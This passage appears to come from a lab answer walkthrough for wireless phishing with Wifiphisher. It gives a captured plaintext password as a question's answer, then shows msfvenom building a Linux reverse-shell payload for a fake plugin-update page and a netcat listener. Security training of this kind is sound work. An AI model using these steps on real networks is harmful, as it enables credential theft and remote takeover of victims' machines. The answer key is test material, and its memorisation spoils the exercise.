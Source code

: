 ```
HTTP requests: 
[*] GET request from 10.0.0.23 for http://anything.com:8080/
[*] POST request from 10.0.0.23 with password={hidden}=Sign In
```

Checking the logged HTTP requests, students will find the client's password in plaintext.

Answer: `F1rMwareUPgrad3`

# Using WifiPhisher

## Question 2

### "Perform the Plugin Update phishing as demonstrated in this section to compromise the client. What is the value of flag.txt?"

From the previously established RDP session, students need to reset the network interfaces on the target VM.

Code: shell

```shell
sudo systemctl restart NetworkManager
```

```
wifi@twins:~$ sudo systemctl restart NetworkManager
```

Next, students need to use `msfvenom` to generate a payload for the Plugin Update phishing attack.

Code: shell

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf
```

```
wifi@twins:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf

Would you like to use and setup a new database (recommended)? Y
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

Subsequently, students need to start a netcat listener.

Code: shell

```shell
nc -lvnp 4444
```
